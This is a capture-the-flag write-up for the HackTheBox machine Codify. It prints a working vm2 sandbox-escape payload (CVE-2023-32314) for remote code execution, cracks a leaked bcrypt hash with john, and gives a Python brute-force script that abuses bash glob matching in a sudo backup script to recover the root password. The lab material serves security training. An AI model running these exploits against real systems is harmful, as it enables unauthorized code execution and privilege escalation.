








# Codify - HackTheBox - Writeup
Linux, 20 Base Points, Easy


## Machine


 
## TL;DR

To solve this machine, we start by using `nmap` to enumerate open services and find ports `22`, `80`, and `3000`.

***User***: Discovered a website designed for testing NodeJS code utilizing `vm2`. Exploited `CVE-2023-32314` to escape the sandbox of `vm2` and achieve Remote Code Execution (RCE). This led to the discovery of the file `tickets.db`, which contains the hashed password of the `joshua` user.

***Root***: Identified the ability to execute the `/opt/scripts/mysql-backup.sh` script as `root`. Leveraged bash partial string matching to circumvent the if statement check within the script. Developed a Python script to retrieve the `root` password utilizing partial string matching.




## Codify Solution

### User

Let's begin by using `nmap` to scan the target machine:

```console
┌─[evyatar9@parrot]─[/hackthebox/Codify]
└──╼ $ nmap -sV -sC -oA nmap/Codify 10.10.11.239
Starting Nmap 7.93 ( https://nmap.org ) at 2024-03-13 20:47 IST
Nmap scan report for 10.10.11.239
Host is up (0.100s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 96071cc6773e07a0cc6f2419744d570b (ECDSA)
|_  256 0ba4c0cfe23b95aef6f5df7d0c88d6ce (ED25519)
80/tcp   open  http    Apache httpd 2.4.52
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://codify.htb/
3000/tcp open  http    Node.js Express framework
|_http-title: Codify
Service Info: Host: codify.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

Observing http://codify.htb/ , we see that the following web page is hosted:



Browsing http://codify.htb/limitations reveals the following:



By clicking on http://codify.htb/about, it is evident that the website utilizes https://github.com/patriksimek/vm2/releases/tag/3.9.16:



We can exploit `CVE-2023-32314` - Sandbox Escape in vm2 using the following payload: https://gist.github.com/arkark/e9f5cf5782dec8321095be3e52acf5ac:
```javascript
const { VM } = require("vm2");
const vm = new VM();

const code = `
  const err = new Error();
  err.name = {
    toString: new Proxy(() => "", {
      apply(target, thiz, args) {
        const process = args.constructor.constructor("return process")();
        throw process.mainModule.require("child_process").execSync("ping -c1 10.10.14.14").toString();
      },
    }),
  };
  try {
    err.stack;
  } catch (stdout) {
    stdout;
  }
`;

console.log(vm.run(code)); // -> hacked
```

Execute the payload to achieve Remote Code Execution (RCE):



Upon enumerating the target, the `tickets.db` file was discovered in `/var/www/contact`:



Retrieve the file by executing the command: `base64 -w0 /var/www/contact/tickets.db`:



Decode the file, resulting in the file [./tickets.db](./tickets.db).

Upon examining the file, the password hash of the joshua user is obtained:

```console
┌─[evyatar9@parrot]─[/hackthebox/Codify]
└──╼ $ sqlite3 tickets.db 
SQLite version 3.34.1 2021-01-20 14:10:07
Enter ".help" for usage hints.
sqlite> .show
        echo: off
         eqp: off
     explain: auto
     headers: off
        mode: list
   nullvalue: ""
      output: stdout
colseparator: "|"
rowseparator: "\n"
       stats: off
       width: 
    filename: tickets.db
sqlite> .tables
tickets  users  
sqlite> select * from users;
3|joshua|$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
sqlite> 
```

Let's crack the hash using `john`:

```console
┌─[evyatar9@parrot]─[/hackthebox/Codify]
└──╼ $ john --wordlist=~/Desktop/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 4096 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
spongebob1       (?)
1g 0:00:00:34 DONE (2024-03-13 21:15) 0.02878g/s 39.37p/s 39.37c/s 39.37C/s crazy1..angel123
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

And we successfully obtain the credentials `joshua:spongebob1`. Let's utilize these credentials to establish an SSH connection:

```console
┌─[evyatar9@parrot]─[/hackthebox/Codify]
└──╼ $ ssh joshua@codify.htb
The authenticity of host 'codify.htb (10.10.11.239)' can't be established.
ECDSA key fingerprint is SHA256:uw/jWXjXA/tl23kwRKzW+MkhMkNAVc1Kwwlm8EnJrqI.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'codify.htb,10.10.11.239' (ECDSA) to the list of known hosts.
joshua@codify.htb's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-88-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed Mar 13 07:24:51 PM UTC 2024

  System load:                      0.00390625
  Usage of /:                       63.6% of 6.50GB
  Memory usage:                     19%
  Swap usage:                       0%
  Processes:                        234
  Users logged in:                  0
  IPv4 address for br-030a38808dbf: 172.18.0.1
  IPv4 address for br-5ab86a4e40d0: 172.19.0.1
  IPv4 address for docker0:         172.17.0.1
  IPv4 address for eth0:            10.10.11.239
  IPv6 address for eth0:            dead:beef::250:56ff:feb9:95cf


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

joshua@codify:~$ cat user.txt 
1b1c8061514f40ee888998ba0152fba8
```

And we get the user flag `1b1c8061514f40ee888998ba0152fba8`.

### Root

Upon executing `sudo -l`, it is revealed that we have permissions to run the script `/opt/scripts/mysql-backup.sh` as `root`:
```console
joshua@codify:~$ sudo -l
[sudo] password for joshua: 
Matching Defaults entries for joshua on codify:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User joshua may run the following commands on codify:
    (root) /opt/scripts/mysql-backup.sh
```

Let's examine the contents of the script:
```console
joshua@codify:~$ cat /opt/scripts/mysql-backup.sh
#!/bin/bash
DB_USER="root"
DB_PASS=$(/usr/bin/cat /root/.creds)
BACKUP_DIR="/var/backups/mysql"

read -s -p "Enter MySQL password for $DB_USER: " USER_PASS
/usr/bin/echo

if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi

/usr/bin/mkdir -p "$BACKUP_DIR"

databases=$(/usr/bin/mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "SHOW DATABASES;" | /usr/bin/grep -Ev "(Database|information_schema|performance_schema)")

for db in $databases; do
    /usr/bin/echo "Backing up database: $db"
    /usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db" | /usr/bin/gzip > "$BACKUP_DIR/$db.sql.gz"
done

/usr/bin/echo "All databases backed up successfully!"
/usr/bin/echo "Changing the permissions"
/usr/bin/chown root:sys-adm "$BACKUP_DIR"
/usr/bin/chmod 774 -R "$BACKUP_DIR"
/usr/bin/echo 'Done!'
```

We can manipulate the `if` statement's `==` check by employing Partial String Matching technique (https://www.namehero.com/blog/bash-string-comparison-the-comprehensive-guide/).

We'll utilize a string pattern, such as `a*`, to ascertain if the root password begins with `a`.

Let's proceed by writing a Python script [./bf.py](./bf.py) to derive the password pattern:
```python
import subprocess
import string


characters=string.ascii_letters+string.digits
password=""

while True:
    found_atleast_one = False
    for char in characters:
        cmd=f"echo '{password}{char}*' | sudo /opt/scripts/mysql-backup.sh"
        out=subprocess.run(cmd,shell=True,stdout=subprocess.PIPE,stderr=subprocess.PIPE,text=True).stdout
        if "Password confirmed" in out:
            password+=char
            print(password)
            found_atleast_one = True
            break
    if not found_atleast_one:
        print(f'The password is: {password}')
        break
```

Execute the script to retrieve the root password:
```console
joshua@codify:/tmp$ python3 bf.py 
k
kl
klj
kljh
kljh1
kljh12
kljh12k
kljh12k3
kljh12k3j
kljh12k3jh
kljh12k3jha
kljh12k3jhas
kljh12k3jhask
kljh12k3jhaskj
kljh12k3jhaskjh
kljh12k3jhaskjh1
kljh12k3jhaskjh12
kljh12k3jhaskjh12k
kljh12k3jhaskjh12kj
kljh12k3jhaskjh12kjh
kljh12k3jhaskjh12kjh3
The password is: kljh12k3jhaskjh12kjh3
```

Successfully accessing the `root` shell using the password `kljh12k3jhaskjh12kjh3`:
```console
joshua@codify:/tmp$ su -
Password: 
root@codify:~# cat /root/root.txt
1092aef1d31a0300dad8fdb1cc01e1b1
```

And we get the root flag `1092aef1d31a0300dad8fdb1cc01e1b1`.

PDF password
```console
$y$j9T$BBviiq1eNRUe8DLwu.mU61$WSfwzensYi9zIITP5VaFmA6wmTOza/5hbDf0jvo1ZS0
```